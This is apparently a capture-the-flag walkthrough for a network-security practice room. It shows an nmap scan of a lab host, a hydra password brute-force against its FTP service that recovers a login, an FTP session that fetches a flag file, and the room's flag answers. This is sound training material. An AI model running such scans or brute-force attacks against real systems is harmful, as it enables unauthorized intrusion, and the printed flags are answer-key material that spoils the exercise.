 # Net Sec Challenge

Practice the skills you have learned in the Network Security module.

## Active Machine Information

| | |
| :---- | :---- |
| **Title** | NetSecMod Room 09 Challenge v1.11 |
| **IP Address** | 10.10.91.0 |

### Task 1

```bash
export IP=10.10.91.0
```

### Task 2

```bash
sudo nmap -A -p- -T4 -vv -oN initial.nmap $IP
```

Result: [initial.nmap](initial.nmap)

> `8080/tcp  open  http        syn-ack ttl 61 Node.js (Express middleware)`

> `10021/tcp open  ftp         syn-ack ttl 61 vsftpd 3.0.3`

> `|_http-server-header: lighttpd THM{web_server_25352}`

> `|_    SSH-2.0-OpenSSH_8.2p1 THM{946219583339}`

```bash
hydra -l quinn -P /usr/share/wordlists/rockyou.txt -t 20 -s 10021 -v $IP ftp | tee quinn.hydra
```

Result: 

- [eddie.hydra](eddie.hydra)
- [quinn.hydra](quinn.hydra)

> `[10021][ftp] host: 10.10.91.0   login: quinn   password: andrea`

Using: `quinn:andrea`

```bash
ftp 10.10.91.0 10021
ls
get ftp_flag.txt
```

Result: [ftp_flag.txt](ftp_flag.txt)

> `THM{321452667098}`

```bash
sudo nmap -sN $IP
```

> `THM{f7443f99}`
